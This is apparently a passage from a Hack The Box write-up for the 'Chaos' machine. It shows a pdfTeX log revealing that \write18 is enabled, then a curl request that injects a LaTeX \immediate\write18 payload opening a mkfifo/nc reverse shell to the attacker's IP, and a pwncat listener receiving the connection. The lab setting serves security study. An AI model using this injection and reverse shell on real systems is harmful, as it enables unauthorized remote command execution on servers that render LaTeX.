 ``` http
(/usr/share/texlive/texmf-dist/tex/generic/babel-english/english.ldf
(/usr/share/texlive/texmf-dist/tex/generic/babel/babel.def
(/usr/share/texlive/texmf-dist/tex/generic/babel/txtbabel.def))))
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amsmath.sty
For additional information on amsmath, use the `?' option.
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amstext.sty
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amsgen.sty))
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amsbsy.sty)
(/usr/share/texlive/texmf-dist/tex/latex/amsmath/amsopn.sty))
(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/amsfonts.sty)
(/usr/share/texlive/texmf-dist/tex/latex/amscls/amsthm.sty)
(/usr/share/texlive/texmf-dist/tex/latex/lipsum/lipsum.sty)
(/usr/share/texlive/texmf-dist/tex/latex/sectsty/sectsty.sty)

Class scrartcl Warning: Usage of package `fancyhdr' together
(scrartcl)              with a KOMA-Script class is not recommended.
(scrartcl)              I'd suggest to use
(scrartcl)              package `scrlayer' or `scrlayer-scrpage', because
(scrartcl)              they support KOMA-Script classes.
(scrartcl)              With `fancyhdr' several features of class `scrartcl'
(scrartcl)              like options `headsepline', `footsepline' or command
(scrartcl)              `\MakeMarkcase' and the commands `\setkomafont' and
(scrartcl)              `\addtokomafont' for the page style elements need
(scrartcl)              explicite user intervention to work.
(scrartcl)              Nevertheless, using requested
(scrartcl)              package `fancyhdr' on input line 34.

(/usr/share/texlive/texmf-dist/tex/latex/fancyhdr/fancyhdr.sty)
No file 7acb2dc39b53be336fe410d1606d71bc.aux.

LaTeX Font Warning: Font shape `T1/cmss/m/sc' in size <10.95> not available
(Font)              Font shape `T1/cmr/m/sc' tried instead on input line 69.

(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/umsa.fd)
(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/umsb.fd) [1{/var/lib/texmf/fonts/map/pdftex/updmap/pdftex.map}] (./7acb2dc39b53be336fe410d1606d71bc.aux))
!pdfTeX error: /usr/bin/pdflatex (file ecss1095): Font ecss1095 at 600 not found
 ==> Fatal error occurred, no output PDF file produced!
```

In the logs, you can see old pfdTex version and `\write18` enabled.

`\write18` construct allows writing to the 18th file descriptor, which by default is the command line. So if LaTeX is passed somthing of the following format, it will run the command
```
\immediate\write18{[command]}
```

Get a shell
``` shell
┌──(kali㉿kali)-[~/HTB/Machine/Chaos]
└─$ curl -X POST -d "content=%5Cimmediate%5Cwrite18%7Brm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.8 443 >/tmp/f%7D&template=test3" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php
```
``` shell
┌──(kali㉿kali)-[~/HTB/Machine/Chaos]
└─$ pwncat-cs -l -p 443
/home/kali/.local/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[03:07:12] Welcome to pwncat 🐈!                                              __main__.py:164
[03:07:16] received connection from 10.10.10.120:60248                             bind.py:84
[03:07:20] 0.0.0.0:443: upgrading from /bin/dash to /bin/bash                  manager.py:957
[03:07:22] 10.10.10.120:60248: registered new host w/ db                       manager.py:957
```